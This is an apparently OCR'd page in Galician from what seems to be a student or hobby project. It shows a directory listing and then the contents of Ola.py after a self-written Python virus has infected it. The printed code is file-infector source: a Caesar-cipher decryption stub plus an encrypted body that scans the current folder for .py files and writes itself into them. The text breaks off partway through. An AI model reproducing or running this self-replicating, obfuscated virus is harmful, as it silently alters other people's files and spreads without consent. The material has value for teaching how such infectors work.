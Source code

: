 ```shell
4 drwxr-xr-x 21 probasvx probasvx 4096 Dec  9 12:04 ..
4 -rw-r--r--  1 probasvx probasvx 2628 Dec  9 16:00 Ola.py
4 -rw-r--r--  1 probasvx probasvx 2385 Dec  9 15:59 virus.py
```

Nesta traza pódese ver que o ficheiro Ola.py aumentou de tamaño. O contido que contén despois da execución do virus é o 
seguinte:
```python
print("Ola mundo!")
def calcula_clave(texto):
    if len(texto) >= 3:
        clave = ord(texto[0]) + ord(texto[1]) + ord(texto[2])
    else:
        clave = 42
    return clave


def descifra(texto, clave):
    texto_descifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_descifrado += chr((ord(caracter) - clave - 65) % 26 + 65)
        elif caracter.islower():
            texto_descifrado += chr((ord(caracter) - clave - 97) % 26 + 97)
        else:
            texto_descifrado += caracter
    return texto_descifrado

import sys
portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
parte_sin_cifrar = texto_portador[texto_portador.find("def calcula_clave"):texto_portador.find("def calcula_clave")+541]
clave = calcula_clave(texto_portador)
texto_descifrado = descifra("""
wxy vbykt(mxqmh, vetox):
    mxqmh_vbyktwh = ""
    yhk vtktvmxk bg mxqmh:
        by vtktvmxk.blniixk():
            mxqmh_vbyktwh += vak((hkw(vtktvmxk) + vetox - 65) % 26 + 65)
        xeby vtktvmxk.blehpxk():
            mxqmh_vbyktwh += vak((hkw(vtktvmxk) + vetox - 97) % 26 + 97)
        xelx:
            mxqmh_vbyktwh += vtktvmxk
    kxmnkg mxqmh_vbyktwh


wxy bgyxvmtk(obknl):
    bfihkm hl
    yhk tkjnboh bg hl.eblmwbk("."):
        by tkjnboh.xgwlpbma(".ir"):
            lvkbim = hixg(tkjnboh, "k+")
            mxqmh_lvkbim = lvkbim.kxtw()
            by "wxy vtevnet_vetox" ghm bg mxqmh_lvkbim:
                itkmx_xg_vetkh = obknl[:541]
                itkmx_t_vbyktk = obknl[541:]
                vetox = vtevnet_vetox(mxqmh_lvkbim)
                itkmx_vkbyktwt = vbykt(itkmx_t_vbyktk, vetox)
                lvkbim.pkbmx(itkmx_xg_vetkh)
```